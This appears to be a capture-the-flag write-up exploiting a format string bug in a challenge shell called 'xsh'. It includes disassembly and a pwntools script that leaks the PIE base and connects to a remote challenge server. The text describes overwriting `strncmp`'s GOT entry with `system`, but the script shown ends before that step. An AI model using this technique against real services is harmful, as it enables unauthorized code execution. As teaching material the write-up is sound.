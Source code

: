 The xsh shell only provided an `ls` command, an `echo` command, and a `zooo` command. The `zooo` command was a troll, it just printed out a poem. The `ls` command just did a normal `ls -la`. The `echo` command had a format string vulnerability.

After the first four bytes of our command is compared to 'echo', if its true, then the following code takes place:
```c
mov     eax, [ebp+cmd]
add     eax, 5
sub     esp, 0Ch
push    eax             ; format
call    _printf
add     esp, 10h
jmp     loc_1357
```

Easy format string vulnerability.

I found out that we can leak the PIE base by doing the following:
```python
# Get base address of binary
leak = execute('echo 0x%3$x')[:10]
elf.address = int(leak, 16) - 0x1249
strncmp_got = elf.got['strncmp']
system = elf.plt['system']

log.info('PIE base: ' + hex(elf.address))
log.info('strncmp_got: ' + hex(strncmp_got))
log.info('system: ' + hex(system))
```

Then I chose to use the format string vulnerability to write the address of `system` into `strncmp`'s GOT address. This way, whenever we type a command, when `strncmp(cmd, ...)` gets called, it will actually call `system(cmd)`.

You might have to run the exploit a couple times remotely to get it to work. It works 100% locally.
```python
#!/usr/bin/env python2

from pwn import *

elf = ELF('./xsh')
libc = ELF('./libc.so.6')

def start():
    if not args.REMOTE:
        return process('./xsh')
        libc = ELF('./libc.so.6')
    else:
        return remote('35.192.206.226', 5555)
        libc = ELF('./libc-remote.so.6')

def execute(cmd):
    p.recv()
    p.sendline(cmd)
    return p.recvuntil('$')

context.terminal = ['tmux', 'new-window']
p = start()
if args.GDB:
    gdb.attach(p)

# Get base address of binary
leak = execute('echo 0x%3$x')[:10]
elf.address = int(leak, 16) - 0x1249
strncmp_got = elf.got['strncmp']
system = elf.plt['system']
```